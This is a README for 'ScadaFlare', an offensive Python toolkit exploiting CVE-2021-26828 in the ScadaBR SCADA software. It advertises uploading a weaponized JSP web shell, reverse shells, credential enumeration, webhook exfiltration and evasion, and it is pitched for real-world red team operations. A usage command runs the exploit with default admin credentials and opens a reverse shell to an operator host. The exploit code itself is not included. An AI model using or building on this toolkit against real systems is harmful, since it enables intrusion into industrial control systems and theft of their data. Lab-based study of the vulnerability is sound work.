

# ScadaFlare - CVE-2021-26828 Authenticated RCE Exploitation Toolkit

A modular post-auth RCE exploit targeting ScadaBR <1.1.0, enhanced for red team ops.



## Features

- Uploads weaponized `.jsp` shell via `view_edit.shtm`
- Supports Linux & Windows payloads
- SOCKS5 / HTTP proxy support
- Reverse shell trigger (standard or base64)
- Enumeration modules (DB, creds, Log4Shell, etc.)
- Webhook exfil (Slack / Discord)
- Metasploit resource script generation
- Cleanup support (kill switch)

## CVE

- CVE-2021-26828
- Discovered by Fellipe Oliveira
- Exploit enhanced & modularized by Ridpath

## Why This Exists
This exploit was developed during analysis of the HTB Pro Lab: Alchemy scenario. The original PoC by Fellipe Oliveira was solid but:

Written in Python 2

Lacked modern features like proxy support, shell cleanup, enumeration chaining

Was difficult to extend or integrate into red team workflows

This version, ScadaFlare, is a full rewrite in Python 3 with modular support, multiple evasion strategies, OS detection override, webhook integration, SOCKS proxy support, and enumeration chains for real world operator use.

## Usage

```bash
python3 scadaflare.py http://172.16.0.20:80 admin admin \
  --reverse-ip 10.10.14.44 --reverse-port 4445 \
  --verbose --cleanup
```
### License
MIT License – see LICENSE.txt
